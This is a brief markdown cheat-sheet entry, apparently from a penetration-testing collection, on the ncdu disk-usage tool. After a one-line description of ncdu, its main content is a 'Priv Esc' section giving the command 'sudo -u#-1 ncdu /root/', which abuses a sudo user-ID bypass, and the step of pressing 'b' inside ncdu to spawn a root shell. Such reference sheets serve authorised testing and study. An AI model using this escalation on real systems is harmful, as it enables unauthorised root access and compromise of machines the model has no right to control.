 # NCDU

- [Priv Esc](#priv-esc)

> The ncdu command provides a convenient way to review files and the disk space being used on Linux systems, but the file sizes may appear a little strange at first. The name “ncdu” stands for “NCurses disk usage. . It uses an ncurses interface to provide the disk usage information.

### Priv Esc

```bash
sudo -u#-1 ncdu /root/
```
After inside root through ncdu press 'b' to spawn root shell.
